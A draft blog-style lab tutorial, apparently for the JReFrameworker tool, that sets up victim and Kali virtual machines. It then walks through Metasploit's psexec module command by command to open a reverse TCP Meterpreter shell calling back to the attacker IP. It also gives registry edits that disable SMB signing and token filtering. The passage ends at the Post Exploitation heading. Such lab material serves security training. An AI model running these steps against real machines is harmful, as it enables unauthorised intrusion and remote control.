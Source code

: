 ```yaml
---
layout: post
title: Payload Deployment
draft: true
---
```


This tutorial demonstrates how to modify a victim machine's runtime using a JReFrameworker module.

If you haven't already, you should complete the first two tutorials ([Hello World](./hello-world) and [Hidden File](./hidden-file)) to become familiar with the basics of JReFrameworker.

<a name="Setup"></a>

## Lab Setup

You will also need to setup a small laboratory test environment that includes the following.

1. A victim machine (this tutorial uses a fresh install of Windows 7 SP1 x64 English edition in a virtual machine, but any OS capable of running Java will work).
2. An attacker machine with [Metasploit](https://www.metasploit.com/) installed (this tutorial uses a [Kali Linux virtual machine](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) version 2016.2).
3. An installation of JReFrameworker (this tutorial uses the host machine, but any OS that can run [Eclipse](https://eclipse.org/) with JReFrameworker installed will work).

For this tutorial we will be using [VMWare](https://www.vmware.com) virtual machines, but [Virtualbox](https://www.virtualbox.org) is a good free alternative to VMWare.

Our victim machine was created with an Administrator account named `Victim` and password `badpass`. Log into the machine. Since Java is not installed by default, we will need to install the runtime environment. You can download the standard edition of Java directly from [Oracle](http://www.oracle.com/technetwork/java/javase/downloads/index.html) or by using the [ninite.com](https://ninite.com/) installer. 

After installing Java, we set out virtual machines to `Host only` mode with our victim at `192.168.115.129` and our attacker at `192.168.115.128`. Double check that you know the IP addresses of each machine and that each machine can ping the other. If Kali cannot ping the Windows virtual machine, you may need to disable or specifically allow connections through the Windows firewall.

<p>
  <center>
    <a href="../images/payload-deployment/windows-network-zoom.png" data-lightbox="windows-network" data-title="Windows Network">
      <img src="../images/payload-deployment/windows-network.png" alt="Windows Network" />
      <figcaption>Windows (Victim) Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

<p>
  <center>
    <a href="../images/payload-deployment/kali-network-zoom.png" data-lightbox="kali-network" data-title="Kali Network">
      <img src="../images/payload-deployment/kali-network.png" alt="Kali Network" />
      <figcaption>Kali (Attacker) Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

The next section continues the lab setup towards getting an active [Metasploit Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session on the victim machine. If your lab setup is different and you have a working exploit already, skip to the [Post Exploitation](#PostExploitation) section below.

<a name="Exploitation"></a>

## Exploitation

Since we already know the credentials for the victim machine, we will be using Metasploit's [psexec (pass the hash) module](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/). In Kali, open the Metasploit framework console by typing `msfconsole` in the terminal. 

<p>
  <center>
    <a href="../images/payload-deployment/msfconsole-zoom.png" data-lightbox="kali-network" data-title="msfconsole">
      <img src="../images/payload-deployment/msfconsole.png" alt="Open msfconsole" />
      <figcaption>Open msfconsole (click to zoom)</figcaption>
    </a>
  </center>
</p>

Within the Metasploit framework console, load the psexec exploit module by typing `use exploit/windows/smb/psexec`.

<p>
  <center>
    <a href="../images/payload-deployment/load-exploit-zoom.png" data-lightbox="kali-network" data-title="load-exploit">
      <img src="../images/payload-deployment/load-exploit.png" alt="Load Exploit" />
      <figcaption>Load exploit (click to zoom)</figcaption>
    </a>
  </center>
</p>

Type `show options` to view the exploit configuration parameters.

<p>
  <center>
    <a href="../images/payload-deployment/exploit-options-zoom.png" data-lightbox="kali-network" data-title="exploit-options">
      <img src="../images/payload-deployment/exploit-options.png" alt="Exploit Options" />
      <figcaption>Exploit Options (click to zoom)</figcaption>
    </a>
  </center>
</p>

Set the remote host to be the IP address of the victim machine by typing `set RHOST 192.168.115.129`.

Set the username to authenticate as by typing `set SMBUser Victim`. Note that you may need to replace `Victim` with the Windows username you used to configure your virtual machine with during setup.

Set the password to authenticate with by typing `set SMBPass badpass`. Again you may need to replace `badpass` with the actual password you used during setup.

Finally let's configure a reverse TCP Meterpreter payload that will execute Meterpreter on the victim machine and connect back to our attacker machine with the active session. Configure the payload by typing `set PAYLOAD windows/meterpreter/reverse_tcp`.

Set the outbound Meterpreter connection address to be the local host (the IP address of the attacker machine) by typing `set LHOST 192.168.115.128`.

Set the outbound Meterpreter connection port to be port 443 (https) by typing `set LPORT 443`.

<p>
  <center>
    <a href="../images/payload-deployment/exploit-parameters-zoom.png" data-lightbox="kali-network" data-title="exploit-parameters">
      <img src="../images/payload-deployment/exploit-parameters.png" alt="Set Exploit Parameters" />
      <figcaption>Set Exploit Parameters (click to zoom)</figcaption>
    </a>
  </center>
</p>

Finally run the exploit by typing `exploit`.

If the exploit failed with error code `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` you may need to edit a registry setting on the Window's victim. Using Window's *regedit* tool navigate to the registry key, **"HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters"** on the target systems and setting the value of **"RequireSecuritySignature"** to **"0"**. Note that while some registry keys may be case sensitive, these keys do not appear to be case sensitive. This registry edit disables the group policy requirement that communications must be digitally signed. 

You may also need to add a new registry key under **"HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"**. Setting  the key to be a DWORD (32-bit) named **"LocalAccountTokenFilterPolicy"** with a value of **"1"**. This edit allows local users to perform administrative actions.

After setting the registry keys, rerun the exploit in Kali. If you are still not successful, try restarting the Windows machine and double checking your exploit configuration parameters by typing `set` to view the current values.

If the exploit was successful you will see that one new session was created. 

<a name="PostExploitation"></a>

## Post Exploitation